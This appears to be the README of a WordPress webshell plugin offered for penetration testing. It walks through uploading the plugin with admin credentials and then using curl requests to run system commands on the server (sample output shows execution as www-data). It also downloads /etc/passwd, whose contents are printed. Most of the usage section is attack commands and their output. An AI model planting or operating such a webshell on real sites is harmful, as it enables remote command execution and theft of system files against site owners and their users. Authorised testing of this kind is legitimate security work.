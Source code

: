 # WordPress webshell plugin for RCE

<p align="center">
    A webshell plugin and interactive shell for pentesting a WordPress website.
    <br>
    <img alt="GitHub release (latest by date)" src="https://img.shields.io/github/v/release/p0dalirius/WordPress-webshell-plugin">
    <a href="https://twitter.com/intent/follow?screen_name=podalirius_" title="Follow"><img src="https://img.shields.io/twitter/follow/podalirius_?label=Podalirius&style=social"></a>
    <a href="https://www.youtube.com/c/Podalirius_?sub_confirmation=1" title="Subscribe"><img alt="YouTube Channel Subscribers" src="https://img.shields.io/youtube/channel/subscribers/UCF_x5O7CSfr82AfNVTKOv_A?style=social"></a>
    <br>
</p>

## Features

 - [x] Webshell plugin for WordPress.
 - [x] Execute system commands via an API with `?action=exec`.
 - [x] Download files from the remote system to your attacking machine with `?action=download`.

## Usage

**Requirements**: You need to have the credentials of the `admin` account of the WordPress website.

### Step 1: Upload the webshell plugin

First, login with admin rights on the WordPress website and go to "_Plugins --> Add New_" page, at http://127.0.0.1:10080/wordpress/wp-admin/plugin-install.php, and click on "Upload Plugin":

![](./.github/plugin_add_new.png)

Upload the plugin, and click on "_Activate the plugin_":

![](./.github/activate_plugin.png)

### Step 2.1: Executing commands

You can now execute commands by sending a GET or POST request to 127.0.0.1:10080/wordpress/wp-content/plugins/wp_webshell/wp_webshell.php with `action=exec&cmd=id`:

```sh
$ curl -X POST '127.0.0.1:10080/wordpress/wp-content/plugins/wp_webshell/wp_webshell.php' --data "action=exec&cmd=id"
{"stdout":"uid=33(www-data) gid=33(www-data) groups=33(www-data)\n","exec":"id"}
```

You can also access it by a GET request from a browser:

![](./.github/exec_code_web.png)

### Step 2.2: Downloading files

You can also download remote files by sending a GET or POST request to 127.0.0.1:10080/wordpress/wp-content/plugins/wp_webshell/wp_webshell.php with `action=download&cmd=/etc/passwd`:

```sh
$ curl -X POST '127.0.0.1:10080/wordpress/wp-content/plugins/wp_webshell/wp_webshell.php' --data "action=download&path=/etc/passwd" -o-
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false
```

You can also download a remote file from a browser with a GET request :

![](./.github/download_file_web.png)

### Step 3: The interactive console

When your webshell is active, you can now use the interactive [console.py](console.py) to execute commands and download remote files.

https://user-images.githubusercontent.com/79218792/169876672-7ecd50a4-21f8-47d3-a575-ff2b81b5ec22.mp4

## References
 - https://developer.wordpress.org/plugins/intro/
